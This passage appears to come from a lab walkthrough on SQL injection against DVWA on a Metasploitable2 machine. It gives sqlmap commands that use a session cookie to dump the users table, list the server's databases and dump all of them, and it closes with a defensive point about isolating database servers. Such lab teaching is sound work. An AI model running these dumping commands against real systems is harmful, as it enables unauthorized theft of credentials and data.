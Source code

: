 ```shell
sqlmap -u "http://192.168.56.102/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie="$COOKIE" --dump -D dvwa -T users
```

### Dump all databases in the MySQL Server

We can dump more than just the `dvwa` database on this MySQL server. First, list the other databases hosted on this server:

```shell
sqlmap -u "http://192.168.56.102/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie="$COOKIE" --dbs
```

This shows the following 7 databases:

```
[*] dvwa
[*] information_schema
[*] metasploit
[*] mysql
[*] owasp10
[*] tikiwiki
[*] tikiwiki195
```

We can dump *all* of these using the `--dump-all` flag. **Warning**, this command will take a long time. There are a lot of tables across these databases on the MySQL server on Metasploitable2.


```shell
sqlmap -u "http://192.168.56.102/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie="$COOKIE" --dump-all
```

This demonstrates why isolating apps from one another -- why using separate MySQL servers for separate apps, instead of hosting multiple apps on a single server -- can help reduce the blast radius if an app is found to have a vulnerability. A SQL injection in the DVWA application exposed *all* apps hosted on this server.
